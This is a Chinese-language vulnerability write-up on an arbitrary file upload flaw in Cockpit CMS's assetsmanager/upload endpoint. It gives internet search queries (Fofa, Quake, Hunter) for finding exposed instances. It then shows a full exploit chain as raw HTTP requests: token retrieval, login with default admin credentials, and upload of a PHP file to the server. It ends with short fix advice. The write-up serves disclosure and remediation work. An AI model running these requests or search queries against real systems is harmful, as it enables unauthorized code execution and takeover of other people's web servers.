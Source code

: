 **漏洞描述**

cockpit系统assetsmanager/upload接口处存在任意文件上传漏洞。攻击者可通过该漏洞在服务端任意上传代码并获取服务器权限，进而控制整个Web服务器。

**空间测绘**

测绘语法：

```bash
Fofa：title="Authenticate Please!"
quake：title:"Authenticate Please!"
hunter：web.title="Authenticate Please!"
```

**漏洞复现**

登录界面如下：

![图片](cockpit%E7%B3%BB%E7%BB%9Fassetsmanager-upload%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.assets/640.jpeg)

1.执行poc进行csrf信息获取，并获取cookie，再上传访问得到结果：

```yaml
GET /auth/login?to=/ HTTP/1.1
Host: xxx.com
Content-Length: 2
```

![图片](cockpit%E7%B3%BB%E7%BB%9Fassetsmanager-upload%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.assets/640-1716174331974-3.png)

2.使用刚才上一步获取到的jwt获取cookie：

```yaml

POST /auth/check HTTP/1.1
Host: xxx.com
Content-Type: application/json
User-Agent: Mozilla/5.0 
Content-Length: 157

{"auth":{"user":"admin","password":"admin"},"csfr":"csfr"}
```

![图片](cockpit%E7%B3%BB%E7%BB%9Fassetsmanager-upload%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.assets/640-1716174342157-6.png)

3.上传文件：

```yaml
POST /assetsmanager/upload HTTP/1.1
Host: xxx.com
Content-Type: multipart/form-data; boundary=---------------------------36D28FBc36bd6feE7Fb3
Cookie: mysession=123451234512345123451234512345123
User-Agent: Mozilla/5.0 
Content-Length: 357

-----------------------------36D28FBc36bd6feE7Fb3
Content-Disposition: form-data; name="files[]"; filename="BE1a3e.php"
Content-Type: text/php

<?php echo "12131231231234e80test";unlink(__FILE__);?>
-----------------------------36D28FBc36bd6feE7Fb3
Content-Disposition: form-data; name="folder"


-----------------------------36D28FBc36bd6feE7Fb3--
```

![图片](cockpit%E7%B3%BB%E7%BB%9Fassetsmanager-upload%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.assets/640-1716174352929-9.png)

4.访问 url+/storage/uploads/+path 验证上传结果：

![图片](cockpit%E7%B3%BB%E7%BB%9Fassetsmanager-upload%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.assets/640-1716174356506-12.png)

**0x04 修复意见**

1、请联系厂商进行修复。 

2、在后端限制允许上传的文件类型或文件内容。 

3、设置白名单访问。
